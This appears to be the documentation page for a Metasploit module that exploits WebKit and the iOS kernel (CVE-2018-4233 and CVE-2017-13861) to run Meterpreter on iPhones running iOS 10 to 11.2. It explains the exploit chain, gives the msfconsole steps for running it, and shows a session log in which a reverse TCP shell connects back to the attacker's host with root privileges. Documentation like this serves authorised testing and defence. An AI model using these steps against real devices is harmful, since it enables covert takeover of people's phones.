 ## Description

This module exploits a type confusion bug in the Javascript Proxy object in WebKit. The DFG JIT does not take into account that, through the use of a Proxy, it is possible to run arbitrary JS code during the execution of a CreateThis operation. This makes it possible to change the structure of e.g. an argument without causing a bailout, leading to a type confusion (CVE-2018-4233).  

The type confusion leads to the ability to allocate fake Javascript objects, as well as the ability to find the address in memory of a Javascript object.  This allows us to construct a fake JSCell object that can be used to read and write arbitrary memory from Javascript.  The module then uses a ROP chain to write the first stage shellcode into executable memory within the Safari process and kick off its execution.  

The first stage maps the second stage macho (containing CVE-2017-13861) into executable memory, and jumps to its entrypoint. The CVE-2017-13861 async_wake exploit leads to a kernel task port (TFP0) that can read and write arbitrary kernel memory. The processes credential and sandbox structure in the kernel is overwritten and the meterpreter payloads code signature hash is added to the kernels trust cache, allowing Safari to load and execute the (self-signed) meterpreter payload.

## Vulnerable Application

The exploit should work all 64-bit devices (iPhone 5S and newer) running iOS 10 up to iOS 11.2.

## Verification Steps

 * Start msfconsole
 * `use exploit/apple_ios/browser/webkit_createthis`
 * `set LHOST` and `SRVHOST` as appropriate
 * exploit
 * Browse to the given URL with a vulnerable device from Safari
 * Note that the payload is specially created for this exploit, due to sandbox
   limitations that prevent spawning new processes.

## Scenarios

### 64bit iPhone 5S running iOS 10.2.1

```
msf5 exploit(apple_ios/browser/webkit_createthis) > exploit
[*] Started reverse TCP handler on 192.168.1.51:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.51:8080/
[*] Server started.
[*] 192.168.1.34     webkit_createthis - Requesting / from Mozilla/5.0 (iPhone; CPU iPhone OS 10_2_1 like Mac OS X) AppleWebKit/602.4.6 (KHTML, like Gecko) Version/10.0 Mobile/14D27 Safari/602.1
[*] 192.168.1.34     webkit_createthis - Requesting /exploit from Mozilla/5.0 (iPhone; CPU iPhone OS 10_2_1 like Mac OS X) AppleWebKit/602.4.6 (KHTML, like Gecko) Version/10.0 Mobile/14D27 Safari/602.1
[+] 192.168.1.34     webkit_createthis - Sent async_wake exploit
[+] 192.168.1.34     webkit_createthis - Sent sha1 iOS 10 payload
[*] Meterpreter session 1 opened (192.168.1.51:4444 -> 192.168.1.34:49211) at 2019-04-15 11:34:01 +0200

msf5 exploit(apple_ios/browser/webkit_createthis) > sessions

Active sessions
===============

  Id  Name  Type                           Information                                  Connection
  --  ----  ----                           -----------                                  ----------
  1         meterpreter aarch64/apple_ios  uid=0, gid=0, euid=0, egid=0 @ 192.168.1.34  192.168.1.51:4444 -> 192.168.1.34:49211 (192.168.1.34)

msf5 exploit(apple_ios/browser/webkit_createthis) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
/System/Library/Frameworks/WebKit.framework/XPCServices/com.apple.WebKit.WebContent.xpc
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
